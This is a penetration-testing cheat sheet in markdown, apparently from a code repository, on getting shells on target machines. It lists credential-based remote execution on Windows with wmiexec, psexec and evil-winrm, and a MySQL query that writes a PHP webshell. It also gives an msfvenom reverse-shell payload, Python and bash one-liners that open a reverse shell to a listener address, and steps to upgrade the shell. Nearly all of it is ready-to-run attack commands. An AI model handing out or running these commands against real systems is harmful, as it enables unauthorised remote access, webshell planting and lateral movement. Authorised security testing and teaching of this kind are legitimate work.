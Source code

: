 # Shells


## Windows Shell


```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/shell/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !